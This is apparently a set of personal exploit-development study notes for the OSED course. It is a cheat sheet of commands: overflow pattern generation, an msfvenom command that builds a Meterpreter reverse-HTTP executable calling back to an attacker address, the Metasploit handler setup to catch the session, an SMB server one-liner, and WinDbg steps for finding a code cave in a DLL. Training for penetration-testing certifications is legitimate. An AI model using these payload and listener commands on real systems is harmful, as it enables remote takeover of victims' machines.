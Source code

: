 # x86Win-OSED-Notes

# Pattern generation:
```
$ msf-pattern_create -l 800
$ msf-pattern_offset -l 800 -q 42306142
```

# met payload:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

# smbserver:
```
sudo smbserver.py met /home/kali/ -smb2support
```

# Code cave search:
we can find the offset to the PE header by dumping the DWORD at offset 0x3C from the MZ header. Then, add 0x2C to the offset to find the offset to the code section
```
0:077> dd libeay32IBM019 + 3c L1
031f003c 00000108
0:077> dd libeay32IBM019 + 108 + 2c L1
031f0134 00001000
0:077> ? libeay32IBM019 + 1000
Evaluate expression: 52367360 = 031f1000
```
Use the !address command to collect information about the code section.
```
0:077> !address 031f1000
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Check for sufficient size for code cave
```
0:077> dd 03283000-400
03282c00 00000000 00000000 00000000 00000000
03282c10 00000000 00000000 00000000 00000000
03282c20 00000000 00000000 00000000 00000000
03282c30 00000000 00000000 00000000 00000000
03282c40 00000000 00000000 00000000 00000000
03282c50 00000000 00000000 00000000 00000000
03282c60 00000000 00000000 00000000 00000000
03282c70 00000000 00000000 00000000 00000000

0:077> ? 03283000-400 - libeay32IBM019
Evaluate expression: 601088 = 00092c00

0:077> !address 03282c00
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Alternative: Use Pykd code caver: https://github.com/nop-tech/code_caver
